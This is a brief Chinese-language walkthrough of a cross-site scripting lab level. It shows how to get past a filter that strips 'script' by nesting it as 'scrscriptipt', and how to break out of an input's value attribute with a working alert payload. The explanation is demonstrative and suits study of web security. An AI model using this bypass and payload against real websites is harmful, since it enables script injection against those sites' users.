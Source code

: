 这个地方是我们要输入的，

```
<script>被过滤
我们要更换一下，采用
<scrscriptipt>
因为script被过滤，输入就会被删除，如果输入scrscriptipt，中间被删除，两边又重新构建出了script
```

![image-20240124115105909](image/image-20240124115105909.png)

我们要将他闭合掉

![image-20240124115257205](image/image-20240124115257205.png)

我们要改为

```
"><scrscriptipt>alert(1)</scrscriptipt><"
```

![image-20240124115421968](image/image-20240124115421968.png)

```
<input name="keyword" value="输入内容">

<input name="keyword" value=""> <script>alert(1)</script><"
第一个"和前面的value="闭合，>和前面的<input 中的<闭合，最后的<"和">闭合

```

输入，出现弹框

![image-20240124115757172](image/image-20240124115757172.png)
